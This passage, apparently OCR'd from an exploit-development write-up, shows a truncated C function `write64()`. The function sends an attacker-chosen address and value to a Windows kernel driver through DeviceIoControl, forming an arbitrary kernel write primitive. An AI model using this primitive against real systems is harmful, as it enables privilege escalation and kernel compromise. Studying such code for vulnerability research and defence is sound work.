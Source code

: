 `write64()`:

```c
BOOL write64(HANDLE inHandle, ULONG64 WHERE, ULONG64 WHAT)
{
	//
	// Buffer to send to the driver (write primitive)
	//
	ULONG64 inBuf1[4] = { 0 };

	//
	// Values to send
	//
	ULONG64 one1 = 0x4141414141414141;
	ULONG64 two1 = WHERE;
	ULONG64 three1 = 0x0000000000000000;
	ULONG64 four1 = WHAT;

	//
	// Assign the values
	//
	inBuf1[0] = one1;
	inBuf1[1] = two1;
	inBuf1[2] = three1;
	inBuf1[3] = four1;

	//
	// Interact with the driver
	//
	DWORD bytesReturned1 = 0;

	BOOL interact = DeviceIoControl(
		inHandle,
		IOCTL_WRITE_CODE,
		&inBuf1,
		sizeof(inBuf1),
		&inBuf1,
		sizeof(inBuf1),
		&bytesReturned1,
		NULL
	);

	//
	// Error handling
	//
	if (!interact)
	{
		//
		// Bail out
		//
		goto exit;

	}
	else
	{
		//
		// Return TRUE
		//
		return TRUE;
	}

//
// Execution comes here if an error is encountered
//
```